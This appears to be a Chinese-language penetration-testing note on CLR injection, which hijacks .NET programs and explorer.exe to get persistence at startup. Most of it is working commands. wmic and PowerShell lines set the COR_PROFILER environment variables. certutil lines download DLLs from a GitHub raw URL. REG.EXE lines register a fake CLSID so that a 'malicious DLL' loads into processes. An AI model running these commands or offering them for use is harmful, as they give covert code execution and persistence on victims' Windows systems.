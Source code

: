	劫持调用.net程序，开机启动
	https://github.com/3gstudent/CLR-Injection/blob/master/CLR-Injection_x64.bat
![image](/assets/Pentest_Note/master/img/461.png)
![image](/assets/Pentest_Note/master/img/462.png)

	WMIC可替换为powershell
	New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null
	New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null

	wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
	wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll
	certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg_x64.dll delete
	SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
	REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg_x64.dll" /F
	REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F 
	SET KEY=HKEY_CURRENT_USER\Software\Classes\WoW6432Node\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
	REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
	REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
	添加全局变量
	计算机\HKEY_CURRENT_USER\Environment
	COR_ENABLE_PROFILING=1
	COR_PROFILER={11111111-1111-1111-1111-111111111111}
	注册CLSID
	计算机\HKEY_CURRENT_USER\Software\Classes\CLSID添加项{11111111-1111-1111-1111-111111111111}和它的子项InprocServer32
	新建一个键ThreadingModel，键值为：Apartment，默认键值为dll路径
	劫持explorer.exe
	>SET COR_ENABLE_PROFILING=1
	>SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
	位置(新建)
	HKEY_CURRENT_USER\Software\Classes\CLSID\{42aedc87-2188-41fd-b9a3-0c966feabec1}\InprocServer32默认值为恶意DLL
	新建ThreadingModel值为Apartment